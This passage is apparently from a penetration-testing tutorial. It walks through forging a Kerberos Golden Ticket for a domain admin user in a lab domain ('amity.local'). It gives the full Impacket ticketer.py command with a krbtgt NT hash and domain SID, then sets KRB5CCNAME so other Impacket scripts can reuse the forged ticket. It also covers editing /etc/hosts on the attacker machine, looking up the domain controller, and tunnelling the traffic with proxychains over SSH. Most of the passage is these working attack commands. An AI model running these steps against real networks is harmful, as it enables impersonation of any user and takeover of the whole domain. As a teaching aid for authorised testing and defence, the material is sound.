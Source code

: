 * *krbtgt* account NT hash
* domain SID
* domain FQDN
* user to impersonate

We will use Impacket's example script [ticketer.py](https://github.com/CoreSecurity/impacket/blob/master/examples/ticketer.py) to create the Golden Ticket credential cache (ccache) file. Here is an example of the syntax to create the ccache file for the user *mbrody-da*:

```bash
./ticketer.py -nthash a577fcf16cfef780a2ceb343ec39a0d9 -domain-sid S-1-5-21-2972629792-1506071460-1188933728 -domain amity.local mbrody-da
```

To enable the Impacket example scripts to use the ccache file for authentication, rather than provided plaintext passwords or NT hashes, we need to set the `KRB5CCNAME` variable to the absolute path of our ccache file:

```bash
export KRB5CCNAME=/path/to/ccache/file
```

Verify the variable was set correctly:

```bash
echo $KRB5CCNAME
```

Now we can use the `-k` flag with any Impacket script that supports Kerberos authentication to use the Golden Ticket rather than providing plaintext passwords or NT hashes.


## Name Resolution
To ensure the Kerberos process functions, we need to modify the `/etc/hosts` file of our attacker machine to include entries for the FQDN of the target's domain controller and the target host's NetBIOS name. Here is an example:

```plaintext
127.0.0.1	localhost
192.168.26.129	amity.local
192.168.26.128  WIN-RMJBTDB7QTF
```

If you don't already have the IP address of the domain controller, run *nslookup* on the target domain's FQDN via the SSH session on the target's Linux host. For example:

```bash
nslookup -type=srv _ldap._tcp.AMITY.LOCAL
```


## Proxychains
We'll be using proxychains to route our traffic over the SSH tunnel. Verify the proxychains port by reviewing the last line of the configuration file, `/etc/proxychains.conf` by default on Kali.

*Note: You may need to comment the `proxy_dns` setting in the proxychains configuration file if you are receiving name resolution issues when performing the attack.*
